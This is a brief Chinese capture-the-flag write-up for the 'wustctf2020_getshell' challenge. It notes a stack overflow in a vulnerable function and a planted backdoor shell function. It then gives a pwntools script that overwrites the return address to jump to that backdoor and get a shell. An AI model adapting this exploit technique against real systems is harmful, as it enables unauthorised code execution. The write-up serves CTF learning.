


1. 在`vulnerable`函数中存在溢出漏洞
2. `shell`函数中已经预留了后门

溢出->跳转到后门函数

```python
from pwn import *
context.log_level = 'debug'
elf=ELF('wustctf2020_getshell')
io = process('wustctf2020_getshell')
payload = b'A'*(0x18+0x4)+p32(elf.sym['shell'])
io.sendline(payload)
io.interactive()
```
